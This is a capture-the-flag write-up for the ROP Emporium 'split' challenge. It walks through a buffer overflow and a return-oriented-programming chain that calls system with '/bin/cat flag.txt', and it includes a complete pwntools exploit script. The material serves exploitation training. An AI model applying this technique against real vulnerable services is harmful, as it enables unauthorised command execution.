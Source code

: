 # split

The elements that allowed you to complete ret2win are still present, they've just been split apart.
Find them and recombine them using a short ROP chain.

## Writeup

We can check if the binary is stripped or not:

```
split: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=98755e64e1d0c1bff48fccae1dca9ee9e3c609e2, not stripped
```

The binary is now stripped we can see function names.

Now check which checks are enabled in this binary:

```
[*] '/home/kali/ROP Emporium/split/split'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

The stack is not executable, so we can't inject a shellcode.

The program in the **main** function call the function **pwnme**:

```c
void pwnme(void)
{
  undefined buffer [32];
  
  memset(buffer,0,32);
  puts("Contriving a reason to ask user for data...");
  printf("> ");
  read(0,buffer,96);
  puts("Thank you!");
  return;
}
```

This function insert **96 bytes** of user input into **32 bytes** of buffer.

The binary also has a function called **usefulFunction**:

```c
void usefulFunction(void)
{
  system("/bin/ls");
  return;
}
```

The function launch the command **/bin/ls**, but we want to show the flag, so we need to insert another argument of the system function.

If we use the command **strings** in to the binary and grep for **/bin**, we can see that the binary contains the string '**/bin/cat flag.txt**':

```bash
strings split | grep /bin
```

With this output:

```
/bin/ls
/bin/cat flag.txt
```

So we can take the address of **system** inside the binary and the address of the string '**/bin/cat flag.txt**' and build the payload:

```python
buffer_dim = 32
offset = buffer_dim + 8

rop = ROP(exe)
ret = rop.find_gadget(['ret'])[0]
cat_flag_addr = next(exe.search(b'/bin/cat flag.txt'))
pop_rdi_addr = rop.find_gadget(['pop rdi'])[0]
system_addr = exe.symbols['system']

payload = [
    b'a' * offset,
    p64(ret),
    p64(pop_rdi_addr),
    p64(cat_flag_addr),
    p64(system_addr)
]
```

We put the address of the string '**/bin/cat flag.txt**' into the register **rdi** that is the register where functions take the first argument, by using the **pop rdi gadget**.

The final exploit will be:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template split
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'split')

context.terminal = ['tmux', 'splitw', '-h']

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

buffer_dim = 32
offset = buffer_dim + 8

rop = ROP(exe)
ret = rop.find_gadget(['ret'])[0]
cat_flag_addr = next(exe.search(b'/bin/cat flag.txt'))
pop_rdi_addr = rop.find_gadget(['pop rdi'])[0]
system_addr = exe.symbols['system']

payload = [
    b'a' * offset,
    p64(ret),
    p64(pop_rdi_addr),
    p64(cat_flag_addr),
    p64(system_addr)
]

payload = b''.join(payload)

io.sendlineafter(b'> ', payload)

io.interactive()
```

The output will be:

```
Thank you!
ROPE{a_placeholder_32byte_flag!}
```